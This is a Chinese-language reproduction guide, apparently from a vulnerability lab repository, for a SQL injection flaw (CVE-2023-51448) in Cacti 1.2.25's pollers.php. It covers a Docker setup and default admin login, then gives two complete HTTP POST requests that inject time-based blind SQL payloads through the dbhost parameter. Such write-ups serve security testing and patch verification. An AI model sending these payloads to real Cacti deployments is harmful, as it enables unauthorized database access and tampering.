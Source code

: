 # Cacti SQL注入漏洞（CVE-2023-51448）

Cacti 是一个为全球用户提供强大且可扩展的运营监控和故障管理框架。它还是一个完整的网络绘图解决方案，旨在利用RRDTool的数据存储和绘图功能。Cacti 包括一个完全分布式和容错的数据收集框架、用于设备、图表和树的高级基于模板的自动化功能、多种数据采集方法、通过插件进行扩展的能力、基于角色的用户、组和域管理功能，此外还有一个主题引擎和多种语言支持，所有这些都是开箱即用的。Cacti pollers.php文件接口在SQL注入漏洞。攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

**影响版本**：1.2.25

**项目地址**：https://github.com/Cacti/cacti

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/141336295
- https://github.com/Cacti/cacti/security/advisories/GHSA-vr3c-38wh-g855

## 漏洞环境

执行如下命令启动一个cacti-v1.2.25-web服务：

```
docker compose up 
```

服务启动后，访问`http://your-ip:80808/`即可跳转到到cacti安装向导界面。

![1.1](./1.png)

点击开始下一步等待安装完成

![1.5](./2.png)

## 漏洞复现

1.  使用admin/admin进入后台，进入[数据采集器](https://so.csdn.net/so/search?q=数据采集器&spm=1001.2101.3001.7020)页面（pollers.php）,查看源码获取__csrf_magic值

   ![](https://i-blog.csdnimg.cn/direct/18f346249ca6444ba95f955e8f3cfa9b.png)

2. 发送如下请求包，进行sql盲注判断

   ```
   POST /pollers.php?header=false HTTP/1.1
   Host: 192.168.76.128:8080
   Accept: */*
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
   X-Requested-With: XMLHttpRequest
   Referer: http://192.168.76.128:8080/pollers.php?clear=1&
   Accept-Encoding: gzip, deflate, br
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: [yourcookie]
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 230
    
   __csrf_magic=[yourmagic]&name=Main+Poller&hostname=unknown&timezone=&notes=&processes=1&threads=1&id=2&save_component_poller=1&dbhost="XOR(if(now()=sysdate(),sleep(4),0))XOR"&action=save
   ```

   或者如下请求包

   ```
   POST /pollers.php?header=false HTTP/1.1
   Host: 192.168.76.128:8080
   Accept: */*
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
   X-Requested-With: XMLHttpRequest
   Referer: http://192.168.76.128:8080/pollers.php?clear=1&
   Accept-Encoding: gzip, deflate, br
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: CactiTimeZone=480; Cacti=b916ec1e58797bcfe864ccad55fc18a1; cacti_remembers=1%2C0%2Cd91e36164ef89e826e01c8ca07c4bcb6492a66848a0b6c73cff8f5b4ace752f9; CactiDateTime=Sun Aug 18 2024 20:52:33 GMT+0800 (ä¸­å½æ åæ¶é´)
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 270
    
   __csrf_magic=sid:60616422313682591b714451a04204353c1b2403,1723985760&name=Main+Poller&hostname=unknown&timezone=&notes=&processes=1&threads=1&id=2&save_component_poller=1&dbhost=";%20select%20sleep(6);%20select%20*%20from%20poller%20where%201=1%20and%20"%"="&action=save
   ```

​	![](https://i-blog.csdnimg.cn/direct/bf813be0b0594c998793000753504bd8.png)

![](https://i-blog.csdnimg.cn/direct/13c705e2e750423ab3c214d3c76b9365.png)